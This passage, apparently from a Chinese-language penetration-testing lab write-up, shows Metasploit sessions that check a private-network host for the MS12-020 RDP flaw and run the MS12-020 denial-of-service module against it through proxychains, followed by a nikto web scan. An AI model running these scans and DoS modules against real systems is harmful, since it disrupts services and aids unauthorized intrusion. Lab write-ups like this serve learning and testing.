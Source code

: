 > rhosts => 192.168.153.128
> msf6 auxiliary(scanner/rdp/ms12_020_check) > exploit 
> 
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:3389  ...  OK
> 
> [+] 192.168.153.128:3389  - 192.168.153.128:3389 - The target is vulnerable.
> [*] 192.168.153.128:3389  - Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
> ```
> 
> 这里显示**The target is vulnerable.（目标很脆弱。）**，但是我找到该漏洞的exp并不能对目标造成影响。接下来我们继续尝试另外一个模块。
> 
> 使用`auxiliary/dos/windows/rdp/ms12_020_maxchannelids`模块。
> 
> ```bash
> msf6 auxiliary(scanner/rdp/ms12_020_check) > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
> msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set rhosts 192.168.153.128
> [proxychains] DLL init: proxychains-ng 4.16
> rhosts => 192.168.153.128
> msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > exploit 
> [*] Running module against 192.168.153.128
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:3389  ...  OK
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:3389  ...  OK
> 
> [*] 192.168.153.128:3389 - 192.168.153.128:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
> [*] 192.168.153.128:3389 - 192.168.153.128:3389 - 210 bytes sent
> [*] 192.168.153.128:3389 - 192.168.153.128:3389 - Checking RDP status...
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:3389  ...  OK
> [-] 192.168.153.128:3389 - 192.168.153.128:3389 - RDP Service Unreachable
> [*] Auxiliary module execution completed
> ```
> 
> 该模块也不能正常运行。接下来只能尝试其他端口。

- 使用`nikto`。并没有发现特别的信息。只能用浏览器打开看看能不能找到有用的数据了。

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 nikto -host http://192.168.153.128
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
- Nikto v2.1.6
---------------------------------------------------------------------------
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
+ Target IP:          192.168.153.128
+ Target Hostname:    192.168.153.128
+ Target Port:        80
+ Start Time:         2022-07-02 02:33:39 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
+ Retrieved x-powered-by header: PHP/7.3.4
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
- STATUS: Completed 3190 requests (~46% complete, 16.6 minutes left): currently in plugin 'Nikto Tests'
- STATUS: Running average: 100 requests: 0.22830 sec, 10 requests: 0.1804 sec.
```